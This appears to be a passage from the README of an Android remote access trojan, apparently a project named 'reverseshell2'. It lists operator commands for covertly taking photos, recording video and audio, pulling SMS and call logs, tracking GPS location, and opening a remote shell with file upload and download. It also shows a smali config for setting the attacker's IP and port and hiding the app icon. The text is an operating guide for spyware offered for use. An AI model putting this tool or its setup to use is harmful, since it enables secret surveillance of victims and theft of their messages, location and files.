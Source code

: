 ### 📷 **Media Commands**
```bash
camList            # List all available cameras
takepic [ID]       # Take photo (0=rear, 1=front)
startVideo [ID]    # Start video recording
stopVideo          # Stop recording and download
startAudio         # Start audio recording
stopAudio          # Stop audio and download
```

### 📱 **Communication Commands**
```bash
getSMS [inbox|sent]  # Download SMS messages
getCallLogs         # Download call history
```

### 🌍 **Location & System Commands**
```bash
getLocation         # Get GPS coordinates
vibrate [times]     # Vibrate device
```

### 🔧 **Advanced Commands**
```bash
shell              # Interactive shell access
clear              # Clear screen
help               # Show command help
exit               # Close connection
```

### 🗂️ **File Operations (in shell mode)**
```bash
get [path]         # Download file from device (max 15MB)
put [filename]     # Upload file to device
ls                 # List directory contents
cd [path]          # Change directory
pwd                # Show current directory
```

---

## 🔧 **Advanced Configuration**

### 🛠️ **Custom Build Parameters**

#### 📝 **Configuration File**
Edit `Compiled_apk/smali/com/example/reverseshell2/config.smali`:

```smali
.field public static final IP:Ljava/lang/String; = "YOUR_IP_HERE"
.field public static final port:Ljava/lang/String; = "YOUR_PORT_HERE"
.field public static final icon:I = 0x0  # 0 = hidden, 1 = visible
```
